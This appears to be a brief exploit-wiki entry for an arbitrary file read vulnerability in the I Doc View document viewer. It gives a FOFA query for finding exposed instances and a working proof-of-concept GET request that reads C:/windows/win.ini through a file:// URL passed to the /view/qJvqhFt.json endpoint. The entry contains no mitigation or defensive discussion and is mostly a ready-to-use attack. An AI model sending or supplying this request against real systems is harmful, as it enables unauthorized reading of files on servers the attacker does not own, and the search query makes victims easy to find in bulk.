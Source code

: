 ## IDocView_qJvqhFt接口任意文件读取


## fofa
```
title="I Doc View"
```

## poc
```
GET /view/qJvqhFt.json?start=1&size=5&url=file%3A%2F%2F%2FC%3A%2Fwindows%2Fwin.ini&idocv_auth=sapi HTTP/1.1
Host:  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate, br
```

![ce0d852b440ac8879e92a2195011da03](https://github.com/wy876/wiki/assets/139549762/b1c29678-aef4-470e-9b44-2a4795b4b835)
